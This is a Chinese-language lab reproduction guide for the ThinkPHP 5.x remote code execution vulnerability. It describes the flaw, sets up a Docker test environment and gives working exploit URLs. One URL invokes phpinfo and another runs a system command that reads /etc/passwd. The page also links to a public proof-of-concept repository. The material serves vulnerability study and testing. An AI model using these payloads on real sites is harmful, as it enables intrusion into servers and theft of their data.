


# ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP 是一款运用极广的 PHP 开发框架。其版本 5 中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行 ThinkPHP 5.0.20 版本：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到 ThinkPHP 默认启动页面。

## 漏洞复现

直接访问 `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行 phpinfo：



执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```



## 开源 POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
